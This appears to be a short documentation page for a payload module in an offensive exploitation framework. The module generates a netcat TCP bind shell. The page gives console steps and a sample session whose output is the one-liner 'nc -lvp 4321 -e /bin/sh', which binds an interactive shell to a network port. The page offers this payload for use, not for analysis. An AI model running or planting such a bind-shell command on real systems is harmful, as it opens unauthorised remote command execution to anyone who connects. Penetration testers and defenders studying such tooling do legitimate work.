 ## Description

Module generates payload that creates interactive tcp bind shell by using netcat one-liner. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/cmd/netcat_bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates netcat tcp bind shell payload.

## Scenarios

```
rsf > use payloads/cmd/netcat_bind_tcp
rsf (Netcat Bind TCP) > set rport 4321
[+] rport => 4321
rsf (Netcat Bind TCP) > run
[*] Running module...
[*] Generating payload
nc -lvp 4321 -e /bin/sh
```
